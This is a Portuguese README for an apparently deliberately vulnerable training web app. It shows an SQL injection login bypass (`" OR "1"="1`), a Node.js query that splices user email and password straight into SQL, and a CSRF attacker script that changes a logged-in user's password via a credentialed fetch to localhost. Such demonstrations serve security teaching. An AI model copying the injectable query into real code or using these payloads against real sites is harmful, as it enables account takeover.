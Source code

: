 # Endpoints da API

## Postman

https://www.postman.com/payload-astronaut-55560118/neandertais/collection/37fuatq/vulnerabilidades?share=true


--- 
# COMO RODAR AS VULNERABILIDADES

## SQL Injection 

1 - Quando digitamos `" OR "1"="1` no campo de e-mail  conseguimos fazer login mesmo sem credenciais corretas

https://github.com/user-attachments/assets/67b0d9d1-da18-4db9-ab24-6decab26bb59


2 - Essa falha acontece quando os dados fornecidos pelo usuário são inseridos diretamente dentro de um comando SQL, sem qualquer tipo de proteção ou tratamento. Nesse caso, o conteúdo malicioso enviado é interpretado como parte da lógica do banco de dados.

Exemplo de vulnerabilidade no código  👇 

```js
  const query = await pool.query(
    `
    SELECT
      id,
      nome,
      email
    from usuario
    where 1 = 1
    and email = "${email}" // obs: O campo email está vulnerável para SQL Injections:
    and senha = "${senha}"
    `
  );
```

## Cross-Site Request Forgery (CSRF)

1 - Necessário fazer login da pagina original

https://github.com/user-attachments/assets/c6f8c93f-76e1-4d5b-81af-a89eb2277225

2 - Após o usuário realizar o login no site oficial, os cookies de autenticação são armazenados no navegador. Esses cookies podem ser aproveitados por outra página web para enviar uma solicitação maliciosa, como, por exemplo, para a rota localhost:5000/api/updateSenha.


https://github.com/user-attachments/assets/af4c2424-6f6b-4a90-bf39-9a448ca09916

3 - Dessa forma, o cookie do usuário autenticado é enviado ao servidor na solicitação, permitindo que um atacante altere a senha do usuário de maneira maliciosa, explorando a ausência de proteções adequadas, como validação de tokens CSRF.

Exemplo do script do atacante:
```js
      const hackerAlteraSenha = async () => {
        fetch("http://localhost:5000/api/userPassword", {
          method: "PUT",
          credentials: "include",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({
            novaSenha: "senhahackeada",
          }),
        })
          .then((res) => {
            if (!res.ok) {
              return res.json().then((data) => {
                throw new Error(data.message || "Erro desconhecido");
              });
            }
            return res.json();
          })
          .then((data) => {
            if (data.success) {
              console.log({ data });

              alert("Senha alterada!");
            }
          })
          .catch((error) => {
            console.error("Erro:", error.message);
          });
      };
```
4 - Conclusão, no banco de dados a senha do usuário foi alterada.

![image](https://github.com/user-attachments/assets/5cb42999-9207-4030-8a84-5be76804a93d)

